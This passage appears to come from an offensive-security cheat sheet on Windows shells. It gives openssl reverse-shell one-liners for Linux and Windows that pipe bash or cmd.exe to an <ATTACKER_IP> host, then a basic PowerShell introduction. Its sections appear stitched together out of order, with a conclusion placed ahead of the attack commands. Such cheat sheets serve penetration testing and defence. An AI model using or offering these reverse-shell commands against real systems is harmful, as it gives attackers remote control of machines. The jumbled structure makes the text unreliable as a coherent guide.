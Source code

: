 ## Conclusion

Obtaining and maintaining a shell on a Windows machine is a crucial step in the hacking process. Reverse shells and web shells are powerful techniques that allow attackers to gain remote access and execute commands on compromised systems. It is important for both attackers and defenders to understand these methods in order to protect against them.
```bash
#Linux
openssl s_client -quiet -connect <ATTACKER_IP>:<PORT1>|/bin/bash|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>

#Windows
openssl.exe s_client -quiet -connect <ATTACKER_IP>:<PORT1>|cmd.exe|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>
```
## Powershell

### Introduction

Powershell is a powerful scripting language and automation framework developed by Microsoft. It is designed specifically for system administration and task automation on Windows operating systems. With its extensive set of commands and features, Powershell provides a versatile environment for managing and controlling Windows systems.

### Features

Powershell offers several key features that make it a popular choice among system administrators and hackers:

- **Command-line interface**: Powershell provides a command-line interface (CLI) that allows users to interact with the operating system and execute commands. This makes it easy to perform various tasks and automate repetitive actions.

- **Scripting language**: Powershell is a full-fledged scripting language that supports variables, loops, conditionals, and other programming constructs. This allows users to write complex scripts to automate tasks and perform system administration tasks.

- **Object-oriented**: Powershell treats everything as an object, including files, processes, and registry keys. This object-oriented approach makes it easy to manipulate and manage system resources.

- **Integration with .NET**: Powershell is built on top of the .NET framework, which provides access to a wide range of libraries and APIs. This allows users to leverage the power of .NET to perform advanced tasks and interact with external systems.

### Basic Usage

To start Powershell, open a command prompt and type `powershell`. This will launch the Powershell CLI, where you can start executing commands and running scripts.

Here are some basic commands to get you started:

- `Get-Process`: Lists all running processes on the system.
- `Get-Service`: Lists all installed services on the system.
- `Get-ChildItem`: Lists all files and directories in the current directory.
- `Set-ExecutionPolicy`: Sets the execution policy for Powershell scripts.
- `Invoke-Expression`: Executes a string as a command.
